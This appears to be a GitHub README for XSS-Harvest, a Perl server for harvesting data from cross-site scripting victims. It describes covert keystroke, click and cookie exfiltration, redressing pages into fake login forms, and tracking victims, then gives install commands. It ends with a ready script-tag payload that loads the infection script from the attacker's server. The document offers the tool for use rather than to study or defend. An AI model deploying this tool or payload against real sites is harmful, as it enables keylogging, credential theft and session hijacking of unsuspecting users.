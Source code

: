 # XSS-Harvest
0.2.x
by Geoff Jones - 0x90.co.uk
http://www.0x90.co.uk/2011/07/harvesting-cross-site-scripting-xss.html

## About
XSS-Harvest is multi-threaded pre-forking web server written in Perl, and requires no dependencies other than a couple of common Perl modules; you do not need a web server or database to use this tool. Before going into the detail, I'll list the high level functionality below:

* Infection script adds relevant event listeners (keystrokes, onload() and mouse clicks) to the vulnerable page and sets up communication with the XSS-Harvest server.
* Any key entered will be sent covertly to the server.
* Any mouse click performed will be analysed and the data covertly sent to the server.
* Optionally 'redress' the vulnerable page to display a different page on the same subdomain - e.g. a login form.
* If redressing the victim's browser, allow subsequently loaded pages to be also 'infected' - assuming they don't break the same-origin policy (i.e. they're on the same subdomain).
* Keeps track of victims for the lifetime of the XSS-Harvest cookie (future visits are recognised as a returning victim).
* Each victim has a separate history file containing all events, cookies and keystrokes. 
* Server console displays real time data received (due to multi-threaded nature, keystrokes are displayed as '.' characters to avoid confusion).
* Tested in IE6-9 (reflected XSS protection in IE9 will limit exploitation to stored XSS only in most cases), FF5, Chrome and various mobile browsers (Safari and Android). Please let me know your success with other browsers.
* Overcomes browser oddities, such as Internet Explorer throttling requests to the same URL when exfiltrating keystrokes.

## Dependencies
Requires the following dependencies:
HTTP::Server::Simple::CGI, Digest::MD5, Time::Local, Getopt::Std, Net::Server::PreFork

### Ubuntu/Debian install

    sudo apt-get install libhttp-server-simple-perl libdigest-md5-file-perl libtime-local-perl libnet-server-perl

### OSX Install 

    sudo cpan install HTTP::Server::Simple::CGI
    sudo cpan install Digest::MD5
    sudo cpan install Digest::Time::Local
    sudo cpan install Getopt:Std
    sudo cpan install Net::Server::Prefork

## TODO

* Hosted version?
* urlEncoded Redress
* Autominify/obfuscate
* Database/dashboard
* Payload generator

## Usage
Start server (with redress:)

* ./xss-harvest.pl -l -r http://vulnerablepage.local/login.html

XSS:

* \<script src="http://\<serverip\>:\<serverport\>/i"\>\</script\>
